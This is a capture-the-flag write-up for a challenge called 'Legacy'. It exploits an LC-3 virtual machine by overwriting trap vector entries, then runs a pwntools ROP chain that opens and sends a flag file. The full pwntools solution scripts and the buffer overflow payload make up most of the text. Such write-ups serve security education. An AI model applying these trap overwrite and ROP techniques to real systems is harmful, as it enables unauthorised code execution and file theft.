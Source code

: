 # Write up for Legacy

## Overview

For this challenge we are doing some trap vector overwriting and some Return Oriented Programming (ROP). For this challenge, we have a lc3 VM and we are
trying to get 2 flags from the host. We can send in machine code to be run, but it'll only read and run by the VM. The host machine won't execute code
from the location we can write to (the stack of the VM). For this challgenge we will use:

lc3 ISA: https://www.jmeiners.com/lc3-vm/supplies/lc3-isa.pdf

lc3 Assembler and Simulator: https://courses.grainger.illinois.edu/ece220/sp2020/lc3web/index.html

x86-64 Syscall table: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/


## Solution

### Flag 1

The first flag is very similar to the previous challenge ```lttlvmmy```. The VM has a depricated function ```trap_sendfile_deprecated()```
that sends the first flag if run. We can overwrite the Trap Vector Table with the address of the function, then call the trap to activate the function.
The below assembly does this

```asm
.ORIG x1000

        ; R0 <- 4 * TRAP_HALT (#37)
        LD   R0, TP_HALTVEC    ; R0 = 37
        ADD  R0, R0, R0        ; R0 = 2*37
        ADD  R0, R0, R0        ; R0 = 4*37 = 37 << 2 = 148

        ; R1 <- 0x2343
        LD   R1, L16_SF_DEP

        ; MEM[148] <- 0x2343
        : Overwrite TRAP 0x25 (HALT) with trap_sendfile_deprecated
        STR  R1, R0, #0

        ; run TRAP x25 (now trap_sendfile_deprecated)
        TRAP x25

        ; Run HALT (which will run trap x25 again)
        HALT

; 0x25 in decimal
TP_HALTVEC    .FILL #37
; lower 16 bits of 0x402343 (trap_sendfile_deprecated addr)
L16_SF_DEP    .FILL x2343
.END
```
Which we can then assemble with the lc3 assembler and put it into a solution script, getting us the flag.

```Python
#!/usr/bin/env python3

from pwn import *
context.terminal = ['tmux', 'split']

p = remote("REDACTED", REDACTED)
# p = process("./vm")

print(p.recvline())

# Flag 1
# Compiled from https://courses.grainger.illinois.edu/ece220/sp2020/lc3web/index.html
payload = bytes.fromhex(
    '10 00' # .ORIG 3000
    '20 06' # LD R0, TP_HALTVEC
    '10 00' # ADD R0, R0, R0
    '10 00' # ADD R0, R0, R0 ( = to TP_HALTVEC*4 shifts over 2 bits)
    '22 04' # LD R1, NEW_LOW16
    '72 00' # STR R1, R0, #0
    'F0 25' # HALT
    'F0 25' # HALT
    '00 25' # (TP_HALTVEC)
    '23 43' # LD R1, x0F4C (NEW_LOW16)
)

# Send buffer size to be sufficient space
p.sendline(str(len(payload)).encode())
p.send(payload)

p.interactive()
```


### Flag 2

For flag 2, we want to get the ```flag2``` file we saw loaded in the docker image. Similar to flag 1, we want
to overwrite one of the Trap Vector Table Entries, though this time we'll overwrite trap ```0x20``` (GETC) with
the ```buffer_overflow_admin_only()``` function. This will allow us to perform a buffer overflow and control
the stack. From this, although we can't write code that'll be executed, we can use Return Oriented Programming (ROP) to
run the syscalls ```sys_open``` and ```sys_sendfile``` to get the flag.

After running the function allowing a buffer overflow the same way we ran the depricated function, we can 
create our ROP attack using pwntools ROP function, which can read through a binary files, find "Gadgets" to
execute the assembly we want and combine them to make our attack. Gadgets are locations in program memory with the
command we want to execute immediately follwoed by a ```ret```. Allowing us to jump there and chain together commands
to get the code we want. The implementation of this can be seen below

```Python
context.binary = vm = ELF('./vm')
rop = ROP(vm)
rop.rax = 2 # syscall 2, open
rop.rdi = flag2_str_addr + 1 # flag2 string location
rop.rsi = 0 # read only mode
rop.rdx = 0 # unused
rop.raw(rop.find_gadget(["syscall","ret"]))
rop.rax = 40 # syscall 40, sendfile
rop.rdi = 1 # stdout
rop.rsi = 3 # opened file
rop.rdx = 0 # no offset
rop.r10 = 20 # copy 20 characters
rop.raw(rop.find_gadget(["syscall","ret"]))
```

After creating our ROP attack, we buffer overflow and put the start of out ROP attack at the return address of the 
```buffer_overflow_admin_only()``` function. This allows us to run the 2 syscalls to get the second flag. 
This can be seen in the solution script below.

```Python
#!/usr/bin/env python3

from pwn import *
context.terminal = ['tmux', 'split']
context.clear(arch="amd64")

p = remote("REDACTED", REDACTED)
# p = process("./vm")

print(p.recvline())

# Compiled from https://courses.grainger.illinois.edu/ece220/sp2020/lc3web/index.html
# Overwrite TRAP x20 GETC to buffer_overflow_admin_only() and run it
# in order to get to a buffer overflowable location
payload = bytes.fromhex(
    '10 00' # .ORIG 1000
    '20 06' # LD R0, TP_GETCVEC
    '10 00' # ADD R0, R0, R0
    '10 00' # ADD R0, R0, R0 ( = to TP_HALTVEC*4 shifts over 2 bits)
    '22 04' # LD R1, NEW_LOW16
    '72 00' # STR R1, R0, #0
    'F0 20' # GETC (now buffer_overflow_admin_only())
    'F0 25' # HALT
    '00 20' # (TP_GETCVEC)
    '23 9B' # LD R1, x0F4C (NEW_LOW16)
    '00 00' # NULL terminator
)

# Send buffer size to be sufficient space for payload
p.sendline(str(len(payload)).encode())
p.send(payload)

# Get the address for the "flag2" string
# in the buffer for the ROP attack
print(p.recvline())
print(p.recvline())
print(p.recvline())
resp1 = p.recvline()
print(resp1)
flag2_str_addr = int(resp1.split(b":")[0], 16)

# Set up stack ROP payload
# that we will overwrite the stack with 
context.binary = vm = ELF('./vm')
rop = ROP(vm)
rop.rax = 2 # syscall 2, open
rop.rdi = flag2_str_addr + 1 # flag2 string location
rop.rsi = 0 # read only mode
rop.rdx = 0 # unused
rop.raw(rop.find_gadget(["syscall","ret"]))
rop.rax = 40 # syscall 40, sendfile
rop.rdi = 1 # stdout
rop.rsi = 3 # opened file
rop.rdx = 0 # no offset
rop.r10 = 20 # copy 20 characters
rop.raw(rop.find_gadget(["syscall","ret"]))

# Get the correct offset for the ROP attack
# and then repeat payload to ensure it hits the 
# return address

# Offset can be found with trial and error 
# or by automatically adding more characters it till segfaults
# on the local system and storing the result.
code = b'flag2\x00' + (b"a" * 250) + (b"a" * 7) + rop.chain()*300

p.send(code)

p.interactive()
```




